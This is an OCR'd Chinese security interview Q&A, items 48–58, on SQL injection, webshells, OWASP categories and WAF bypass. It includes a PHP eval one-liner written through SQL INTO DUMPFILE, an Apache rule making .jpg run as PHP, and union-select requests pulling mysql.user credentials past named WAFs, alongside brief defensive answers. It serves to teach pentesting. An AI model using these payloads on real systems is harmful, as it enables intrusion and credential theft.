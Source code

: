 48.延时注入如何来判断？  
      (1)if(ascii(substr(“hello”, 1, 1))=104  
      (2) sleep(5), 1)  

49.盲注和延时注入的共同点？  
    都是一个字符一个字符的判断  

50.如何拿一个网站的 webshell ？  
    上传，后台编辑模板，sql 注入写文件，命令执行，代码执行，一些已经爆出的 cms 漏洞，比如 dedecms 后台可以直接建立脚本文件，wordpress 上传插件包含脚本文件 zip 压缩包等  

51.sql 注入写文件都有哪些函数？  
      (1)select '一句话' into outfile '路径'  
      (2)select '一句话' into dumpfile '路径'  
      (3) select '<?php eval($_POST[1]) ?>' into  dumpfile  'd:\wwwroot\ baidu.com\ nvhack.php';  

52.如何防止 CSRF?  
      (1)验证 referer  
      (2)验证 token  详细：http://cnodejs.org/topic/5533dd6e9138f09b629674fd  

53.owasp  漏洞都有哪些？  
      (1)SQL 注入防护方法：  
      (2)失效的身份认证和会话管理  
      (3)跨站脚本攻击 XSS  
      (4)直接引用不安全的对象  
      (5)安全配置错误  
      (6)敏感信息泄露  
      (7)缺少功能级的访问控制  
      (8)跨站请求伪造 CSRF  
      (9)使用含有已知漏洞的组件  
      (0)未验证的重定向和转发  

54.SQL 注入防护方法？  
    (1)使用安全的 API  
    (2)对输入的特殊字符进行 Escape 转义处理  
    (3)使用白名单来规范化输入验证方法  
    (4)对客户端输入进行控制，不允许输入 SQL 注入相关的特殊字符  
    (5)服务器端在提交数据库进行 SQL 查询之前，对特殊字符进行过滤、转义、替换、删除。  

55.代码执行，文件读取，命令执行的函数都有哪些？  
      (1)代码执行： 
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function  
      (2)文件读取 ：file_get_contents(),highlight_file(),fopen(),readfile(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等  
      (3)命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(),  popen(),proc_open()  

56.img 标签除了 onerror 属性外，还有其他获取管理员路径的办法吗？  
    src 指定一个远程的脚本文件，获取 referer  

57.img 标签除了 onerror 属性外，并且 src 属性的后缀名，必须以.jpg 结尾， 怎么获取管理员路径?  
    1,远程服务器修改 apache 配置文件，配置.jpg 文件以 php 方式来解析  
    AddType application/x-httpd-php .jpg  
     <img src=http://xss.tv/1.jpg&gt;  会以 php 方式来解析  

58.怎么绕过 WAF 注入和上传以及 xss ？  
    (1)关键字可以用% （只限IIS 系列），比如 select 可以 sel%e%ct。
原理：网络层 waf 对 SEL%E%CT 进行 url 解码后变成 SEL%E%CT ，匹配select 失败，而进入 asp.dll 对 SEL%E%CT 进行 url 解码却变成 select。IIS 下的 asp.dll 文件在对 asp 文件后参数串进行 url 解码时，会直接过滤掉 09-0d （09 是 tab 键,0d是回车）、20 （空格）、%(后两个字符有一个不是十六进制)字符。xss 也是同理。  
   (2)内联注释。安全狗不拦截，但是安全宝、加速乐、D 盾等，看到/ !/就 Fack了，所以只限于安全狗。比如：/ !select*/  
   (3)编码。这个方法对 waf 很有效果，因为一般 waf 会解码，但是我们利用这个特点，进行两次编码，他解了第一次但不会解第二次，就 bypass 了。腾讯waf、百度 waf 等等都可以这样 bypass 的  
   (4)绕过策略如：伪造搜索引擎早些版本的安全狗是有这个漏洞的，就是把 User-Agent 修改为搜索引擎  
   (5)插入关键目录 admin,dede,install 等目录绕过 360webscan 360webscan 脚本存在这个问题，就是判断是否为 admin dede install 等目录，如果是则不做拦截  
    GET /pen/news.php?id=1 union select user,password from mysql.user  
    GET /pen/news.php/admin?id=1 union select user,password from mysql.user  
    GET /pen/admin/..\ news.php?id=1 union select user,password from mysql.user  